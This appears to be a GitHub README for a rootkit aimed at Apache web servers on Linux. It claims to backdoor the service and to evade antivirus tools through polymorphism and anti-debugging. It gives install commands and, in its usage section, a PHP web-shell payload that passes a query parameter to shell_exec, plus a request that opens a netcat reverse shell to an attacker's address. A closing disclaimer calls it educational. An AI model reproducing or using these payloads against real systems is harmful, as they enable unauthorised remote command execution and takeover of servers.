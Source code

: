 ﻿# AIpacheRootkit

This rootkit targets the Apache web server running on a Linux machine. It injects a backdoor into the Apache service, allowing remote execution of commands on the compromised machine. The rootkit uses polymorphism and anti-debugging techniques to evade detection by antivirus software and security researchers.

## Installation

To install the rootkit, follow these steps:

1. Clone the repository: `git clone https://github.com/Z3r0nom1/AIpacheRootkit.git`
2. `cd` into the root directory of the repository: `cd AIpacheRootkit`
3. Run the setup script: `sudo ./setup.sh`
4. Compile the rootkit: `make`

## Usage

Once the rootkit is installed, you can use it to obtain a reverse shell by following these steps:

1. Connect to the compromised machine over the network
2. Send a GET request to the Apache service with the following payload:
    `<?php echo shell_exec($_GET['cmd']); ?>`
3. Open a reverse shell by sending the following GET request:
    `http://<target-ip>/index.php?cmd=nc -e /bin/bash <attacker-ip> <attacker-port>`

Make sure to replace `<target-ip>`, `<attacker-ip>`, and `<attacker-port>` with the appropriate values for your network configuration.

## Disclaimer

This rootkit is intended for educational and testing purposes only. Use at your own risk. The creators of this rootkit are not responsible for any illegal activities carried out using this software.
